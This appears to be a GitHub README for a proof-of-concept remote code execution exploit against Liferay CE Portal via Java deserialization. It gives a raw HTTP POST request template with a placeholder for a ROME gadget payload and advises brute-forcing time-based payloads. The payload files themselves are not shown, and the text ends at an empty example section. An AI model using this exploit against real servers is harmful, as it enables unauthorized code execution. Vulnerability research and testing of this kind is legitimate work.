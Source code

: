 # Liferay-CE-Portal-Java-Deserialization
This repo contains PoC for the remote code execution vulnerability of Liferay CE Portal!

# Payloads
I already shared payloads in repo. You must find the right syntax by brute-force method.Payloads I share are for time-based proof of concept (sleep 10). The application may not always output the command. That's why you should try time-based payload while doing PoC.

# Proof Of Concept

POST /api/liferay HTTP/1.1
Host: TARGET  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close

ROME-PAYLOAD-FILE

# Example PoC

